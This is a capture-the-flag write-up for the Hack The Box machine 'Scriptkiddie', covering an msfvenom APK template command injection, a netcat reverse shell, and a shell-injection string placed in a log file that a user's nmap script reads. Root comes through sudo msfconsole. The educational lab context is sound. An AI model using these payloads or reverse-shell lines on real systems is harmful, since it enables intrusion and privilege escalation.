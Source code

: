 # Hackthebox: Scriptkiddie writeup

Scriptkiddie is an easy box which is based around using a hacker's tools against them. Definitely an interesting concept that taught me we also need to be careful even if we're technically minded.

## Enumeration

First of all, running nmap to check for open ports:

```
nmap -p- 10.10.10.226

Starting Nmap 7.60 ( https://nmap.org ) at 2021-06-05 12:26 BST
Nmap scan report for scriptkiddie.htb (10.10.10.226)
Host is up (0.017s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 9.76 seconds
```

I check out `http://scriptkiddie.htb:5000/`, which seems to have a few options: nmap, payload generation, and searchsploit.
I eventually noticed that in the payload generation there's an option to generate a payload with android which seemed unusual.
After some googling, there seems to be a vulnerability (https://www.exploit-db.com/exploits/49491) with msfvenom's apk payload generation. 
It seems possible to manufacture a .apk template for the msfvenom command which allows us to run a command on the remote system.

## Foothold

Looking up in `msfconsole`, there seems to be an exploit for it there that we can use:
```
   0  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat

msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > show options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  127.0.0.1        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lhost 10.10.?.?
lhost => 10.10.?.?
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

```

This will generate the evil apk file:

```
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /home/erry/.msf4/local/msf.apk
```

Now we have to start a reverse shell ourselves on the host and port that we specified earlier.

```
erry@erry-Virtual-Machine:~/hax$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
```

Go back to the scriptkiddie website. Select OS: android , lhost: 127.0.0.1 (it doesn'#t matter), and as template file select the evil apk generated earlier.

Wait on our reverse shell, seems like we got a connection:

```
erry@erry-Virtual-Machine:~/hax$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)

Connection from 10.10.10.226 32962 received!

id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

## User Flag

It seems we have a connection from the user `kid`. 
We can directly read `/home/kid` and `/home/kid/user.txt`.
Congrats, you have the user flag!
```
cat /home/kid/user.txt
```


If desired, we can add our public key in `/home/kid/.ssh/authorized_hosts` to be able to easily access the machine in future.

## Privesc (pwn)

It doesn't look like `kid` can do much and we do not have sudo password.
However, checking around the system it seems that there is another user that may be interesting:


```
kid:x:1000:1000:kid:/home/kid:/bin/bash
pwn:x:1001:1001::/home/pwn:/bin/bash
```

We can read pwn's home dir and we find this file:

```
kid@scriptkiddie:~$ cat /home/pwn/scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

It looks like the pwn user is constructing an nmap command based on the `/home/kid/logs/hackers` file. 
Maybe we can take advantage of that running command to run a command of our own when the script runs?

After some crafting, we have a string that we can put in the `logs/hackers` file:

```
  ;  /bin/bash -c "bash -i >& /dev/tcp/10.10.14.6/4442 0>&1" #
```

The space in front is for the `cut -d ' ' -f3-` command because it will grab the string after 2 spaces. This will force the executed command to be like this:

```
sh -c "nmap --top-ports 10 -oN recon/; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/4442 0>&1' # rest of command here"

which will force a bash shell to open as `pwn`.

Now we have the connection on our reverse shell!

```
pwn@scriptkiddie:~$ id
id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
pwn@scriptkiddie:~$
```

# Privesc (root)

Right away we see that we have sudo:

```
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

It looks like we can run msfconsole as root.

```
pwn@scriptkiddie:~$ sudo msfconsole
sudo msfconsole
```

now we can just run `bash` through msfconsole.

```
id
uid=0(root) gid=0(root) groups=0(root)
```

```
cat /root/root.txt
```

Congrats, we have the root flag!


